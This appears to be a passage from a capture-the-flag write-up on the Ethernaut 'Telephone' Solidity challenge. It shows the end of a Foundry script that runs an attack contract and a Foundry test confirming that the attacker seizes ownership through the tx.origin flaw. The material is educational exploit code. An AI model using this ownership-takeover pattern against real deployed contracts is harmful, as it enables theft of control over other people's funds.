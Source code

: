 ```javascript

        // Check initial owner
        console.log("Initial Owner: ", target.owner());

        // Execute the attack
        attack.attackTel();

        // Check new owner
        console.log("New Owner: ", target.owner());

        vm.stopBroadcast();
    }
}
```

---

## ✅ Foundry Test

This is the `TelephoneTest.t.sol` to test the vulnerability using Foundry's test suite:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import {Telephone, AttackTelephone} from  "../src/Telephone.sol";

contract TelephoneTest is Test {
    Telephone public tel;
    AttackTelephone public attack;

    address public attacker = makeAddr("attacker");

    function setUp() public {
        tel = new Telephone();
        attack = new AttackTelephone(tel);
    }

    function test_owner() public {
        address initialOwner = tel.owner(); 
        console.log("Initial Contract Owner: ", initialOwner);

        vm.prank(attacker);
        attack.attackTel();

        console.log("After attack owner: ", tel.owner());

        assertEq(attacker, tel.owner(), "Owner is not the same");
    }
}
```

---